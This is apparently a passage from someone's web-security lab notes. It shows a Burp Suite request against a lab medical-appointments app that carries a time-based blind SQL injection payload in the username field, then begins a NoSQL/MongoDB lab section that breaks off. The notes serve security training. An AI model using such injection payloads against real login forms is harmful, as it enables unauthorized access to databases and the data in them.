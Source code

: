 ```http
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /citasmedicas.php?pag=citasmedindex HTTP/1.1
Host: 7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=2pckgln0g9j9nfk9v8r1qi1t25
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com
Referer: https://7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com/citasmedicas.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

username=' OR IF(MID(@@version,1,1)='0',SLEEP(1),1)='2'#&password=TEST123📌
```
`HTTP Response`:
```http
[...]

135 millis
```
❌

---

## NoSQL Injection

### NoSQL Fundamentals

#### Lab Environment

**MongoDB Basics**

[MongoDB](https://www.mongodb.com/) is a document-oriented NoSQL database system. A mongodb server is installed in the lab environment (`localhost`). The objective of this challenge is to interact with the mongodb server.

#### Lab Solution
